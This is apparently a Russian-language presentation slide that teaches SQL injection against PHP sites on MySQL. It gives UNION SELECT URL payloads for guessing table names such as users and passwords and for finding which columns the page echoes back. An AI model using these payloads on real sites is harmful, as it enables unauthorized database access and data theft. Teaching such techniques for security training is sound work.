

Определенным образом сформулированные запросы могут дать доступ к структуре данных (именам полей и таблиц). Например, для поиска уязвимости на сайте, написанном на языке PHP и использующим СУБД MySQL, можно попробовать следующее:
http://.../php?id = 12 + union + select + null,null,null + from + users/*
(здесь /* это символ комментария в MySQL). Правильные выполненные запросы будут соответствовать существующим именам таблиц.
Следует проверить на существование таблиц users, passwords, regusers и т.д.
Затем выполняем:
http://.../php?id=9999+union+select+'test',null,null/* http://.../php?id=9999+union+select+null,'test',null/*